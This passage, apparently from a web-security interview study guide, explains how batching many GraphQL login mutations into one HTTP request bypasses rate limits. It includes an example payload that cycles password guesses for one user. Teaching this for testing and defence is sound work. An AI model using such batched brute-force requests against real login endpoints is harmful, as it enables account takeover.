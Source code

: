 This normal request will throw something like "Wrong password" for the query in GraphQL format. Rate limit will be at it's place, looking if we are going to make more HTTP requests (like 15 fast ones). 


Now, we can simply duplicate the queries into one single HTTP request, where only the password value will be replaced. 

```http
POST /graphql HTTP/1.1

[
{
	"variables":{
	},
	
	"query":
	"mutation {
			login(username: 'hackerman', password: '1337')}"
			.......blahblah
},
{
	"variables":{
	},
	
	"query":
	"mutation {
			login(username: 'hackerman', password: '1338')}"
			.......blahblah
},
{
	"variables":{
	},
	
	"query":
	"mutation {
			login(username: 'hackerman', password: '1339')}"
			.......blahblah
},
............................. (as many queries as the server can accept)
]
```

We are successfully bypassing the rate limit by sending one single HTTP request with many queries. For each query, there will be written, if it's successful, or not. 


There is also an alternative, called **aliases**, which is not in scope for this question, so I will share a link from the GOAT of websec : https://portswigger.net/web-security/graphql/what-is-graphql#aliases.



## 25. What is type juggling, and why does the JSON format help exploit these vulnerabilities?
